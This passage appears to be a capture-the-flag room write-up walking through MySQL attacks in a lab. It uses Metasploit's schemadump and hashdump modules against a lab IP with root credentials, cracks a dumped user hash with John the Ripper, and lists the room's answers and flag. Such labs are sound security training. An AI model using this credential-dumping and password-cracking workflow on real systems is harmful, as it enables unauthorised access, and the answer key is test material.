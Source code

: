 **Exploiting**

- First, let's search for and select the "mysql_schemadump" module. What's the module's full name? [`auxiliary/scanner/mysql/mysql_schemadump`]
- Great! Now, you've done this a few times by now so I'll let you take it from here. Set the relevant options, run the exploit. What's the name of the last table that gets dumped? [`x$waits_global_by_latency`]
- Awesome, you have now dumped the tables, and column names of the whole database. But we can do one better... search for and select the "mysql_hashdump" module. What's the module's full name? [`auxiliary/scanner/mysql/mysql_hashdump`]
- Again, I'll let you take it from here. Set the relevant options, run the exploit. What non-default user stands out to you? [`carl`]

```
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set PASSWORD password
PASSWORD => password
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set USERNAME root
USERNAME => root
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set RHOSTS 10.10.43.160
RHOSTS => 10.10.43.160
msf6 auxiliary(scanner/mysql/mysql_hashdump) > run

[+] 10.10.43.160:3306     - Saving HashString as Loot: root:
[+] 10.10.43.160:3306     - Saving HashString as Loot: mysql.session:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.43.160:3306     - Saving HashString as Loot: mysql.sys:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.43.160:3306     - Saving HashString as Loot: debian-sys-maint:*D9C95B328FE46FFAE1A55A2DE5719A8681B2F79E
[+] 10.10.43.160:3306     - Saving HashString as Loot: root:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
[+] 10.10.43.160:3306     - Saving HashString as Loot: carl:*EA031893AA21444B170FC2162A56978B8CEECE18
[*] 10.10.43.160:3306     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

- Another user! And we have their password hash. This could be very interesting. Copy the hash string in full, like: bob:*HASH to a text file on your local machine called "hash.txt". What is the user/hash combination string? [`carl:*EA031893AA21444B170FC2162A56978B8CEECE18`]
- Now, we need to crack the password! Let's try John the Ripper against it using: "john hash.txt" what is the password of the user we found? [`doggie`]
- Awesome. Password reuse is not only extremely dangerous, but extremely common. What are the chances that this user has reused their password for a different service? What's the contents of MySQL.txt [`THM{congratulations_you_got_the_mySQL_flag}`]

### Extra info

- [RPC](https://searchapparchitecture.techtarget.com/definition/Remote-Procedure-Call-RPC)
- How NFS Works
  - [Datto](https://www.datto.com/library/what-is-nfs-file-share)
  - [SourceForge](http://nfs.sourceforge.net/)
  - [ArchWiki](https://wiki.archlinux.org/index.php/NFS)
